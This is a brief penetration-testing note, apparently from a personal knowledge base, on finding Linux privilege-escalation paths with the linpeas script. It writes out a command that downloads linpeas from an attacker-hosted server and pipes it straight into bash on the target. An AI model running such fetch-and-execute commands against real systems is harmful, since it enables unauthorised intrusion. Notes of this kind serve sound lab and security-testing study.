 ```yaml
---
tags:
  - linpeas
---
```


## Enumeration - Finding Escalation Paths
### Linux
- Linpeas.sh https://github.com/carlospolop/PEASS-ng/releases/tag/20231105-d387d97f
	- Host on your attacking endpoint and run on target system
		- `curl 10.10.14.177:8000/linpeas.sh|bash`
	- 